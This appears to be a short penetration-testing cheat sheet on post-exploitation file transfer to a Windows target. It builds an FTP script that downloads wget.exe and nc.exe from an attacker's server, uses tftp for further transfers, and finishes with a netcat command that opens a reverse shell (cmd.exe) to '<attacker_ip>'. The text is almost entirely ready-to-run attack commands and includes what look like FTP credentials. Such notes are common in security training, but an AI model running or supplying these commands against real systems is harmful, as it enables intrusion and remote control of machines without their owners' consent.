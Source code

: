 #### Set up a ftp downloading script on the target machine:
```bash
echo open IP 21 > ftp.txt
echo USER acknak>> ftp.txt
echo jLQRZy4gyLhmMqz2whTw>> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET wget.exe >> ftp.txt
echo bye >> ftp.txt
```

#### Download the prepared file:

```bash
ftp -v -n -s:ftp.txt
```

#### Start tftp server on Kali

```bash
aftpd start
```

#### Transfer files from Kali to Windows (from windows terminal)

```bash
tftp -I IPADDRESS GET nameoffile.exe
```

#### You can have a shell using this

```bash
echo open <attacker_ip> 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
nc.exe <attacker_ip> 1234 -e cmd.exe
```
